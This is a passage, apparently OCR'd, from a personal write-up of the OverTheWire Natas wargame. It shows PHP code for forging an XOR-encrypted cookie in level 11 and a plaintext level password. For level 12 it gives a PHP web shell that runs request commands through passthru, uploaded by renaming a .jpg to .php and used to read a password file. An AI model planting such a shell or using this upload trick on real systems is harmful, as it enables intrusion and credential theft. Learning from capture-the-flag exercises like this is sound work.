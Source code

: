    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

// 1. base64 decode encrypted string
$base64decoded = '{"showpassword":"yes","bgcolor":"#ffffff"}';

// 2. Execute XOR function
$secretKey = xor_encrypt($base64decoded);

// 3. Print secret key
print(base64_encode($secretKey));

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
there should be a server side check to ensure that original session cookie value is preserved


---
### Natas 12

#### Credentials
natas12
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

#### How you passed the challenge
created php script:

<html>
<body>

<form method="POST">
    <input name="cmd" id="cmd">

<?php
echo $_REQUEST["cmd"];

echo passthru ($_REQUEST["cmd"])

?>
</body>

saved as .JPG and before uploading changed the name to .php

at this point I can execute shell commands:

cat /etc/natas_webpass/natas13

#### What sins are evidenced in this challenge
** Sins here **
